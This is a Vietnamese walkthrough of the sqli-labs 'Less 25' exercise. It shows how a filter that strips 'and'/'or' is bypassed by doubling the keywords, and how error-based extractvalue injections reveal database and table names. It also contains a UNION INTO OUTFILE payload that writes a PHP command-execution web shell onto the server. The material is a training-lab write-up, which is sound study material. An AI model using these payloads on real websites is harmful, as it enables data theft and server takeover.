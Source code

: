 # Less 25

Đề bài yêu cầu nhập vaò một giá trị

![](../images/sqli-labs/Less-25/01.png)

Tôi thử truyền vào một giá trị

![](../images/sqli-labs/Less-25/02.png)

Tôi thấy màn hình thông báo một cái gì đó liên quan đến `and` và `or`. Tôi thử nhập vào một số giá trị có thể gây ra lỗi xem có thấy gì không. Khi tôi nhập vào là `1'` thì thấy xuất hiện lỗi của SQL trên màn hình

![](../images/sqli-labs/Less-25/03.png)

Tôi có thể dự đoán câu query là 

```
select * from table where id='$id' limit 0,1
```

Tôi thử lại thì thấy câu query có thể đã đúng

![](../images/sqli-labs/Less-25/04.png)

Vì trên màn hình tối thấy có thông báo liên quan đến `and` và `or` nên tôi thử truyền vào

![](../images/sqli-labs/Less-25/05.png)

Thì tôi thấy ở dòng dưới dùng thông tin tôi truyền vào đã bị mất ký tự `and`. Theo dự đoán chúng ta có thể nhận định rằng bên dưới backend đã xử lý chuỗi nhập vào. Các ký tự `and` và `or` đã được loại bỏ. Tôi thử thêm lần nữa

![](../images/sqli-labs/Less-25/06.png)

Dựa vaò đây chúng ta có thể có thể khai thác các thông tin trong DB

Show tên DB

```
http://192.168.84.233/sqli-labs/Less-25/?id=1' || extractvalue(1,concat(0x7e,(select database())))--+
```

![](../images/sqli-labs/Less-25/08.png)

Show tên bảng 

```
http://192.168.84.233/sqli-labs/Less-25/?id=1' || extractvalue(1,concat(0x7e,(select table_name from infoorrmation_schema.tables where table_schema='security' limit 0,1)))--+
```

![](../images/sqli-labs/Less-25/09.png)

Ở đây vì `and` và `or` sẽ bị bỏ nên chỗ nào có `and` thì ta thay bằng `anandd` còn `or` thì chúng ta thay bằng `oorr`.

Như vậy bằng cách này ta có thể show toàn bộ DB như những vài trước.

Ta cũng có thể thêm một đoạn code php vào server

```
http://192.168.84.233/sqli-labs/Less-25/?id=1' union select 1,2,"<?php system ($_REQUEST['cmd']);?>" into outfile '/var/www/html/tests/a1.php' --+
```

![](../images/sqli-labs/Less-25/10.png)

![](../images/sqli-labs/Less-25/11.png)